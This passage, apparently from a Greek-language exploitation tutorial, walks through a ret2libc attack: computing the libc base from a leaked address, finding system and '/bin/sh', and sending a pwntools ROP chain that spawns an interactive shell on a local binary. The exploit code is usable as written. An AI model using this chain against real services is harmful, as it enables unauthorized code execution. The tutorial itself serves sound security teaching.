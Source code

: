 ### 3.3- Άλλες συναρτήσεις για leak
```python
puts
printf
__libc_start_main
read
gets
```
## 4- Εύρεση διεύθυνσης libc με βάση & εκμετάλλευση

Σε αυτό το σημείο θα πρέπει να γνωρίζουμε τη βιβλιοθήκη libc που χρησιμοποιείται. Καθώς εκμεταλλευόμαστε ένα τοπικό δυαδικό αρχείο, θα χρησιμοποιήσω απλώς: `/lib/x86_64-linux-gnu/libc.so.6`

Έτσι, στην αρχή του `template.py` αλλάξτε τη μεταβλητή **libc** σε: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Ορίστε τη διαδρομή της βιβλιοθήκης όταν την γνωρίζετε`

Δίνοντας τη **διαδρομή** στη **βιβλιοθήκη libc**, το υπόλοιπο της **εκμετάλλευσης θα υπολογιστεί αυτόματα**.

Μέσα στη συνάρτηση `get_addr`, η **βάση διεύθυνση της libc** θα υπολογιστεί:
```python
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))
```
{% hint style="info" %}
Σημειώστε ότι **η τελική διεύθυνση βάσης της libc πρέπει να τελειώνει σε 00**. Αν αυτό δεν ισχύει για εσάς, μπορεί να έχετε διαρρεύσει μια λανθασμένη βιβλιοθήκη.
{% endhint %}

Στη συνέχεια, η διεύθυνση της συνάρτησης `system` και η **διεύθυνση** της συμβολοσειράς _"/bin/sh"_ θα υπολογιστούν από τη **βάση** της **libc** και θα δοθούν τη **βιβλιοθήκη libc.**
```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```
Τέλος, η εκμετάλλευση εκτέλεσης /bin/sh θα προετοιμαστεί για αποστολή:
```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

#### Interact with the shell #####
p.interactive() #Interact with the conenction
```
Ας εξηγήσουμε αυτό το τελικό ROP.\
Το τελευταίο ROP (`rop1`) κατέληξε να καλεί ξανά τη βασική συνάρτηση, οπότε μπορούμε να **εκμεταλλευτούμε ξανά** την **υπερχείλιση** (γι' αυτό το `OFFSET` είναι εδώ ξανά). Στη συνέχεια, θέλουμε να καλέσουμε το `POP_RDI` δείχνοντας στη **διεύθυνση** του _"/bin/sh"_ (`BINSH`) και να καλέσουμε τη συνάρτηση **system** (`SYSTEM`) επειδή η διεύθυνση του _"/bin/sh"_ θα περαστεί ως παράμετρος.\
Τέλος, η **διεύθυνση της συνάρτησης εξόδου** είναι **καλούμενη** ώστε η διαδικασία να **εξέρχεται ωραία** και να μην δημιουργείται καμία ειδοποίηση.
